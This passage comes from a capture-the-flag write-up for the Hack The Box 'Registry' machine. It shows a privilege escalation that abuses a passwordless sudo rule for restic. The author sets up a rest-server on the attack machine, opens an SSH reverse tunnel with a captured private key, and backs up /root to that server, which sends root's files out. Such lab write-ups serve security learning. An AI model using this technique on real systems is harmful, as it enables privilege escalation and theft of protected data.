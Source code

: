 ![](/assets/images/htb-writeup-registry/www-data.png)

And it worked!. Now we're `www-data` and looking at `sudo` permissions. we notice that we can run `restic` as `sudo` with out password.
## Privilege Escalation
```bash
www-data@bolt:~/html/bolt/files$ sudo -l

Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
```
`Restic` is a backup program . we can install it on our local `apt-get install restic`. However in order to be able to transfer the snapshot we also need to set up rest server on our attack machine [restic/rest-server](https://github.com/restic/rest-server) 

Setting up `rest server` on our local and initiating repo with `restic init --repo backup/`.
```bash
rest-server --path backup/ 

rest-server 0.9.7 (40ba90f-dirty) compiled with go1.10.4 on linux/amd64
Data directory: backup/
Authentication disabled
Private repositories disabled
Starting server on :8000

```
Now, we need to do `port` forwarding first so we can be able to transfer the `snapshot`.

```bash
ssh -R 8000:127.0.0.1:8000 -i bolt.id_rsa bolt@registry.htb

Enter passphrase for key 'bolt.id_rsa':
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Sat Mar 28 17:26:56 UTC 2020

  System load:  0.02              Users logged in:                1
  Usage of /:   6.9% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 43%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   3%                IP address for docker0:         172.17.0.1
  Processes:    172
Last login: Sat Mar 28 16:58:47 2020 from 10.10.14.226
bolt@bolt:~$ 
```
Next,ww transfer the backup of `root` folder to our machine.
```
www-data@bolt:~/html/bolt/files$ sudo restic backup -r rest:http://127.0.0.1:8000/ /root                                                                                                                                                      
< restic backup -r rest:http://127.0.0.1:8000/ /root      
enter password for repository:
password is correct
scan [/root]
scanned 2 directories, 2 files in 0:00
```